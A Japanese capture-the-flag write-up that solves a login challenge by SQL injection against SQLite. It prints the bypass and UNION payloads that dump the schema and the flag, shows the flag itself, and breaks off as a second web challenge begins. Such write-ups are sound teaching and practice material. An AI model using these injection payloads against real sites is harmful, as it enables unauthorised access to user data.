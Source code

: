 与えられた URL にアクセスすると、ユーザ名とパスワードを入力できるログインフォームが表示されました。ユーザ名に `' or 1;#` でログインしてみるとハルクホーガンのプロフィールが表示されました。どうやら SQLi ができるようです。

`' union select 1, 2, 3, 4, 5;#` を入力すると以下のようなエラーが表示されました。

```
Warning: SQLite3::query(): Unable to prepare statement: 1, SELECTs to the left and right of UNION do not have the same number of result columns in /var/www/html/login.php on line 19

Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /var/www/html/login.php:20 Stack trace: #0 {main} thrown in /var/www/html/login.php on line 20
```

SQLite3 のようです。`' union select group_concat(sql), 2, 3, 4, 5, 6, 7, 8 from sqlite_master;#` を入力すると以下のように `users` の構造が得られました。

```sql
CREATE TABLE `users` (
    `username`    TEXT,
    `password`    TEXT,
    `avatar`    TEXT,
    `age`    INTEGER,
    `name`    TEXT,
    `title`    TEXT,
    `flag`    TEXT,
    `id`    INTEGER PRIMARY KEY AUTOINCREMENT
),CREATE TABLE sqlite_sequence(name,seq)
```

`' union select group_concat(flag), 2, 3, 4, 5, 6, 7, 8 from users;#` でフラグが得られました。

```
Username: …,sun{ju57_4n07h3r_5ql1_ch4ll},…
```

```
sun{ju57_4n07h3r_5ql1_ch4ll}
```

### Wrestler Name Generator (150)
> Even better than the Wu-Tang name generator, legend has it that Hulk Hogan used this app to get his name.
> http://ng.sunshinectf.org

与えられた URL にアクセスすると、以下のような HTML が返ってきました。

```html
︙
<form>
  <div class="form-group">
    <label style="color:white" for="exampleFormControlInput1">First Name</label>
    <input type="email" class="form-control" id="firstName" placeholder="First">
  </div>
  <div class="form-group">
    <label style="color:white" for="exampleFormControlInput1">Last Name</label>
    <input type="email" class="form-control" id="lastName" placeholder="Last">
  </div>
  <div class="form-group">
    <label style="color:white" for="exampleFormControlSelect1">Weapon of Choice</label>
    <select class="form-control" id="weapon">
      <option>Steel Chair</option>
      <option>Flaming Table</option>
      <option>Barb Wire Bat</option>
      <option>Ladder</option>
      <option>Thumbtacks</option>
    </select>
  </div>
</form>
<button id="button" class="btn btn-primary" type="submit">Get Wrestler Name</button>
```
